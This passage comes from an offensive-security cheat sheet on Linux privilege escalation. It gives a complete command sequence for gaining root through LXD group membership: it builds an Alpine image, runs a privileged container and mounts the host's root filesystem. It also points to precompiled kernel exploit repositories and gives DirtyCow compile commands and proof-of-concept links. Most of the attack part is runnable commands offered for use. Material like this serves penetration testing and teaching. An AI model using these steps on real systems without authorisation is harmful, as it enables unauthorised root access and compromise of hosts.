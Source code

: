 ### LXC/LXD

The privesc requires to run a container with elevated privileges and mount the host filesystem inside.

    ╭─swissky@lab ~  
    ╰─$ id
    uid=1000(swissky) gid=1000(swissky) groupes=1000(swissky),3(sys),90(network),98(power),110(lxd),991(lp),998(wheel)

Build an Alpine image and start it using the flag `security.privileged=true`, forcing the container to interact as root with the host filesystem.

    # build a simple alpine image
    git clone https://github.com/saghul/lxd-alpine-builder
    ./build-alpine -a i686
    
    # import the image
    lxc image import ./alpine.tar.gz --alias myimage
    
    # run the image
    lxc init myimage mycontainer -c security.privileged=true
    
    # mount the /root into the image
    lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
    
    # interact with the container
    lxc start mycontainer
    lxc exec mycontainer /bin/sh

Alternatively [https://github.com/initstring/lxd_root](https://github.com/initstring/lxd_root)

## Kernel Exploits

Precompiled exploits can be found inside these repositories, run them at your own risk !

- [bin-sploits - @offensive-security](https://github.com/offensive-security/exploitdb-bin-sploits/tree/master/bin-sploits)
- [kernel-exploits - @lucyoa](https://github.com/lucyoa/kernel-exploits/)

The following exploits are known to work well, search for another exploits using `searchsploit -w linux kernel centos`.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel ⇐ 3.19.0-73.8

    # make dirtycow stable
    echo 0 > /proc/sys/vm/dirty_writeback_centisecs
    g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
    https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
    https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
